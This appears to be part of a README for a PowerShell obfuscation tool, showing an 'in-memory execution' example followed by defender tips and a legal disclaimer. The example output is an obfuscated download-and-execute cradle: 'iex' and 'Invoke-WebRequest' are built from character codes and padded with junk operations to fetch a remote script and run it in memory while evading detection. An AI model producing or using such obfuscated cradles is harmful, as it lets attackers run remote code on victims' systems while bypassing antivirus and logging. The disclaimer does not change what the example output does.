 ### Example 2: In-Memory Execution
**Input:**
```
URL: https://raw.githubusercontent.com/legitimate/script.ps1
Filename: script.ps1
Method: In-memory execution
```

**Generated Output:**
```powershell
[50+ useless operations]... &($([char]105+[char]101+[char]120)) (($([char]73+[char]110+$([char]118)+$([char]111)+$([char]107)+$([char]101)+$([char]45)+$([char]87)+$([char]101)+$([char]98)+$([char]82)+$([char]101)+$([char]113)+$([char]117)+$([char]101)+$([char]115)+$([char]116))+' -Uri "https://raw.githubusercontent.com/legitimate/script.ps1" -UseBasicParsing).Content'); [50+ more useless operations]...
```

## 🔒 Security Considerations

### For Defenders
- **Detection Methods**: Learn to identify obfuscated PowerShell commands
- **Monitoring**: Implement PowerShell logging and monitoring
- **Execution Policy**: Use appropriate execution policies
- **Antivirus**: Keep antivirus software updated

### For Researchers
- **Sandbox Testing**: Always test in isolated environments
- **Network Monitoring**: Monitor network traffic during testing
- **Log Analysis**: Review PowerShell logs for suspicious activity
- **Documentation**: Document all testing activities

## ⚖️ Legal Disclaimer

**IMPORTANT**: This software is provided for **EDUCATIONAL AND RESEARCH PURPOSES ONLY**.

### 🚨 Legal Notice
- **Authorized Use Only**: Use only on systems you own or have explicit written permission to test
- **No Warranty**: This software is provided "as is" without warranty
- **No Liability**: The authors are not responsible for any misuse or damage
- **Compliance**: Users must comply with all applicable laws and regulations

### 📋 Acceptable Use Cases
- ✅ Cybersecurity education and training
- ✅ Penetration testing with proper authorization
- ✅ Security research in controlled environments
- ✅ Red team exercises with written permission
- ✅ Academic research and studies

### ❌ Unacceptable Use Cases
- ❌ Unauthorized access to systems
- ❌ Malicious attacks or cybercrime
- ❌ Testing on systems without permission
- ❌ Distribution of malware or harmful code
- ❌ Any illegal activities
